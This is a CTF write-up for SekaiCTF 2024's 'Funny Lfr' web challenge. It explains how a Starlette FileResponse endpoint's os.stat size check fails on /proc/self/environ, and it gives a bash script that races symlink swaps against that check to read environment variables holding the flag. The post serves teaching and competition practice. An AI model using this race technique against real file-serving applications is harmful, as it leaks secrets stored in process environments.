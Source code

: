 ```yaml
---
title: "SEKAI 24 - Funny Lfr"
date: 2024-08-30T11:01:21+01:00
tags: ["ctf", "write-up", "sekaictf"]
author: "hxuu"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "CTF write-up for Funny Lfr"
summary: "The article explains exploiting a race condition in a Starlette app to bypass `os.stat` checks, using symlinks, and ultimately retrieving the flag from `/proc/self/environ`."
canonicalURL: ""
disableHLJS: false
disableShare: false
hideSummary: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
editPost:
    URL: "https://github.com/hxuu/content"
    Text: "Suggest Changes"
    appendFilePath: true
---
```


## Challenge Description

```
name: funny lfr
category: web exploitation
points: 183
solves: 36 solves
```

You can access the challenge via SSH:
```bash
ncat -nlvp 2222 -c "ncat --ssl funny-lfr.chals.sekai.team 1337" & ssh -p2222 user@localhost
```
SSH access is only for convenience and is not related to the challenge.

## Analysis

We are given the following source files:

```bash
├── app.py
└── Dockerfile
```

Which represent a simple [Starlette](https://www.starlette.io/) application:

```python
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import FileResponse


async def download(request):
    return FileResponse(request.query_params.get("file"))


app = Starlette(routes=[Route("/", endpoint=download)])
```

And a Dockerfile

```bash
FROM python:3.9-slim

RUN pip install --no-cache-dir starlette uvicorn

WORKDIR /app

COPY app.py .

ENV FLAG="SEKAI{test_flag}"

CMD ["uvicorn", "app:app", "--host", "0", "--port", "1337"]
```

At first glance the challenge seems very simple. You make a request to `/?file=<path>`
and get the file contents displayed to you.

### `Inside SSH`

![inside-ssh](/blog/images/2024-08-30-11-28-28.png)

The flag as highlighted by the Dockerfile is stored inside an environment variable
called `FLAG`. Doing a quick google search, we can see that environment variables
in linux systems are stored in the `/proc/pid/environ` file.

With that knowledge in hand, we should get the flag just by getting the results of
`/proc/self/environ` which stores the environment variables of the current running process.

Right?

![right?](/blog/images/2024-08-30-11-38-10.png)

We got nothing... That's weird.

We know the application should return the contents of the files we ask for. However,
asking for `/proc/self/environ` doesn't return anything. Why?

Well, the python application is a Starlette application that adheres to ASGI specs,
the FileResponse class is responsible for returning files to the client. Before serving
a file, FileResponse checks the file's size using the os.stat syscall.

### `from Starlette source code`

![stat-check](/blog/images/2024-08-30-11-52-53.png)

The `os.stat` function retrieves various attributes about a file, such as its size, modification time, and permissions. When `os.stat` is called on a file, it checks the filesystem for this information.

However, in the case of `/proc/self/environ`, which resides within the `procfs` virtual filesystem (VFS), there’s a unique situation. The `procfs` VFS provides access to kernel and process information, and many files within it are not regular files but rather interfaces to the kernel's data structures. These files often have special behaviors, and their contents may be dynamically generated when accessed.

When `os.stat` **checks** `/proc/self/environ`, it reports the file size as zero because, in many cases, the file doesn’t have a traditional size; it's an interface to process-specific information that’s only generated on demand. Consequently, when `FileResponse` sees a size of zero, it might interpret this as an empty or non-existent file, even though reading from `/proc/self/environ` would normally return environment variables for the process.

This behavior can lead to the application not returning any content when asked for `/proc/self/environ`, despite the file being non-empty in a traditional sense. The mismatch between how `os.stat` reports the file's size and the file's actual contents in `procfs` **is the root cause of this issue.**


---

So, what can we do then?

It turns out, we can trigger a race condition to do the following:

1. request a file whose size is greater than 0.
2. right after `os.stat` and before the actual **read**, we swap the latter file,
with the desired file which is `/proc/pid/environ`.

To achieve such a thing, we can make use of [symlinks](https://en.wikipedia.org/wiki/Symbolic_link), create a symlink that points
to a bigger file, bypass the `os.stat` step, then right before the file read, we change
the link to `/proc/pid/environ` and successfully get the flag.


## Exploitation

To trigger the race condition, let's first create a bash script that creates a large file,
create a symlink to it, and then create an infinite loop which swaps the links between this file
and `/proc/pid/environ`.

> Note that you should replace pid with the actuall process id of the running python application.
You can figure that using `ps aux`. pid=7 in my case.

### `solve.sh`

```bash
#!/usr/bin/env bash

cat /etc/passwd > /home/user/big-file.txt

ln -s big-file.txt /home/user/the-link

while true; do
    ln -sf /proc/7/environ          /home/user/the-link
    ln -sf /home/user/big-file.txt  /home/user/the-link
done
```

Running this on remote, and doing few curls of the `the-link` file should give us the flag.

![solve](/blog/images/2024-08-30-12-32-01.png)

---

Flag is: `SEKAI{b04aef298ec8d45f6c62e6b6179e2e66de10c542}`

Things we learned from this challenge:

Here are the key lessons from the challenge:

- **`os.stat` and `procfs`**: Learned how `os.stat` retrieves file attributes and why it reports `/proc/self/environ` as size zero in `procfs`.

- **Race Condition Exploit**: Discovered how to exploit race conditions using symlinks to bypass `os.stat` and read sensitive files.

- **Symlink Usage**: Learned to manipulate file paths using symlinks for exploitation purposes.
